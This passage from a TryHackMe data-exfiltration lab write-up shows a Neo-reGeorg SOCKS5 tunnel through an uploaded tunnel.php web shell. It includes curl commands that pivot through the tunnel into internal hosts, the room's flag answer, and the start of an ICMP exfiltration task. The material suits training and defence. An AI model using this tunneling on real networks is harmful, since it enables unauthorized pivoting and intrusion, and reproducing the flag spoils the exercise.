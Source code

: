 ```console
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting SOCKS5 server [127.0.0.1:1080]
  Tunnel at:
    http://10.10.155.150/uploader/files/tunnel.php
+------------------------------------------------------------------------+
```
{: .nolineno }

We can now query the internal server which was not accessible from internet before :

```console
root@ip-10-10-133-162:/opt/Neo-reGeorg#curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
curl: (52) Empty reply from server
root@ip-10-10-133-162:/opt/Neo-reGeorg# curl --socks5 127.0.0.1:1080 http://172.20.0.120/flag:80
<p><a href="/flag">Get Your Flag!</a></p>
root@ip-10-10-133-162:/opt/Neo-reGeorg# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80/flag
<p>Your flag: THM{H77p_7unn3l1n9_l1k3_l337}</p>
```
{: .nolineno }

Answer : THM{H77p_7unn3l1n9_l1k3_l337}

## TASK 7 : Exfiltration using ICMP
### In which ICMP packet section can we include our data?

![ICMP](/images/thm/dataxexfilt/dataxexfilt_5.png)
_ICMP_
